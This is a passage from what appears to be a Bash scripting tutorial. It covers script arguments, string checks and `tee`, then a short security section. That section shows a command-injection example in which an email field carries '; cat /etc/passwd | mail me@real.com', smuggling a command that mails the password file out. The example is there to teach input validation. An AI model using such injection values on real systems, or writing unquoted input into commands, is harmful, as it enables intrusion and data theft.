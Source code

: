 ```

where command line arguments are used, and run again with

```
. StarWars.sh
```

and

```
. StarWars.sh force
```

It must be noticed that the first argument is saved in the `$1` variable. What is, then, `$0`? This is the name of the shell script! And what is `$#`? This is the number of parameters!

What happens if we do not provide any argument?
We need to check that the string has been assigned, which can be done by adding

```
if [ -n "${string}" ]
then
    for file in $files; do grep —color -w $string $file >> Sentences.dat; done
else
    echo "No string provided."
    return
fi
```

What happens if we use `exit` instead of `return`?

Another useful command worth mentioning is `tee`, which allows to save the output into a file, but also to show it on the stdout (our screen):

```ls Poems/*.txt | tee ListOfFilesWithTee.dat```

If we want to append to the output file, we can use the `-a` option:

```ls Poems/*.txt | tee -a ListOfFilesWithTee.dat```

## Bash security

[Situations that can turn very wrong very quickly](http://i.stack.imgur.com/MI1tR.jpg), which means it is important to be aware of potentially dangerous behaviours.

It is a good practice to not trust input data, which is one of the most common reasons of security-related incidents.
Some examples are buffer overflow (that is, accepting input longer than the size of the allocated memory), invalid or malicious input, code inside data, and many others.

One practical example, provided by Sebastian Lopienski, is the following: let's say we wrote a script that sends emails using the `mail` command:

```cat confirmation.txt | mail $email```

and someone provides the following email address:

```me@fake.com; cat /etc/passwd | mail me@real.com```

So, what do we get?

```
cat confirmation.txt | mail me@fake.com;
cat /etc/passwd | mail me@real.com
```
```